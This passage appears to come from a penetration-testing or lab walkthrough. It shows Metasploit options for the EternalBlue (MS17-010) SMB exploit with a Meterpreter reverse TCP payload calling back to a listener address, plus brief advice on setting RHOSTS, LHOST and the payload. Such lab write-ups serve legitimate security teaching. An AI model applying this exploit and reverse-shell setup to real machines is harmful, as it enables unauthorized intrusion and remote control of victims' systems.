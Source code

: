 ```plain text
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wi
                                             ki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Win
                                             dows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows
                                              Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 20
                                             08 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.21     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Important options: `RHOSTS, LHOST`, and the `payload`. Here’s what I did to configure my exploit. Depending on your setup, you should set the `lhost` to the interface or IP address you’re using to connect to the target.

{% aside %}
If you want to skip upgrading the shell session to meterpreter, leave the payload as `windows/x64/meterpreter/reverse_tcp` 
{% endaside %}
